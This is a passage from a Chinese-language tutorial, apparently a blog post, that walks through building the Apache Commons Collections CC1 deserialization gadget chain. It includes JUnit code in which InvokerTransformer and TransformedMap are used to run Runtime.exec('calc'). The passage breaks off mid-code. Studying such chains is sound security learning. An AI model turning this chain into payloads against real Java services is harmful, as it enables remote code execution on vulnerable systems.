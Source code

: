 当然是使用ChainedTransformer类。  
  
7  
  
ChainedTransformer类：  
  
它是传入一个transformer数组，然后链式调用数组里面的这些transformer，前一个transformer的输出是后一个transformer的输入。如下图：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xClUkwicmh2xkm2ZCV3d6LYY0NqL9KI3AKSfM2Auyicu5YKTmIKTkn5Vq6ALvoTAFhibGKTjP7MJuricQ/640?wx_fmt=png&from=appmsg "")  
  
接下来我们开始构造，如下：  
  
在ChainedTransformer()函数中传入我们的transformer数组，然后把之前构造好的两个常量transformer（ConstantTransformer）复制过来，分别是ConstantTransformer和invokerTransformer。最后把我们的两个常量transformer放到transformer数组中。  
  
**但是由于ChainedTransformer不管传入什么都返回的特性，你最终的ChainedTransformer.transformer传入什么都不重要了，链条也得以执行以至执行到我们的危险方法。**  
  
**现在我们开始调用我们的transformer，传入什么都行。**  
  
**然后现在的话我们就开始把我们的ChainedTransformer传给我们的增强Map，同样将前面构造好的增强Map复制过来，将ChainedTransformer传入进去。**  
  
**最后我们通过反射把我decorated.map（装饰好的map）复制过来。**  
  
**代码如下：**  
```
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import org.junit.Test;
import sun.reflect.annotation.AnnotationType;
import java.io.IOException;
import java.lang.annotation.Annotation;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import static org.apache.commons.collections.functors.ConstantTransformer.*;
public class CC1Test1 {
    
    @Test
    
    public void invokeExec() throws Exception {
        
    //Runtime.getRuntime().exec("calc");
        
        InvokerTransformer invokerTransformer = new InvokerTransformer(
            "exec",
            new Class[]{String.class},                
            new Object[]{"calc"}
        );
        
        //invokerTransformer.transform(Runtime.getRuntime());
        //Map decorated = TransformedMap.decorate(null,null, invokerTransformer);
        //TransformedMap.checkSetValue();
        
        HashMap<Object, Object> map = new HashMap<>();
        map.put("a", "b");
        Map<Object, Object> decorated = TransformedMap.decorate(map, null, invokerTransformer);
        
        for (Map.Entry<Object, Object> entry : decorated.entrySet()) {
            entry.setValue(Runtime.getRuntime());
        }
    }
    
    @Test
```